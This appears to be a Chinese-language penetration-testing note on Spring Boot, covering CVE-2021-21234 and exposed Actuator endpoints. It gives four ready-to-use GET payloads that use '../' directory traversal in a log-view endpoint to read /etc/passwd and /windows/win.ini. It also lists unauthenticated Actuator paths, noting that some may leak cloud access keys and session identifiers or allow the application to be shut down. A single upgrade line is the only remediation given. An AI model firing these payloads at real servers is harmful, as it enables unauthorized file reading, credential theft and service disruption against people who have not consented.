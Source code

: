 # Springboot

---
- 漏洞编号：CVE-2021-21234
- 时间：2021.10.19
- 类别：目录遍历
- 漏洞影响范围：版本<0.2.13
- 修复方案：升级到0.2.13
- 特征：图标为背景为绿云的白桃

```
GET path:
	  - "{{BaseURL}}/manage/log/view?filename=/windows/win.ini&base=../../../../../../../../../../" # Windows
      - "{{BaseURL}}/log/view?filename=/windows/win.ini&base=../../../../../../../../../../" # windows
      - "{{BaseURL}}/manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../" # linux
      - "{{BaseURL}}/log/view?filename=/etc/passwd&base=../../../../../../../../../../" # linux
```

- 未授权访问

  ```
  /dump - 显示线程转储（包括堆栈跟踪）
  /autoconfig   - 显示自动配置报告  可能存在阿里云Accesskey
  /configprops   - 显示配置属性
  /trace - 显示最后几条HTTP消息（可能包含会话标识符）
  /logfile - 输出日志文件的内容
  /shutdown - 关闭应用程序
  /info - 显示应用信息
  /metrics - 显示当前应用的”指标“信息
  /health - 显示应用程序的健康指标
  /beans - 显示Spring Beans的完整列表
  /mappings - 显示所有MVC控制器映射 # 显示未授权的接口
  /env - 提供对配置环境的访问1.x版本  或者/actuator/env 2.x版本
  /restart - 重新启动应用程序
  ```

  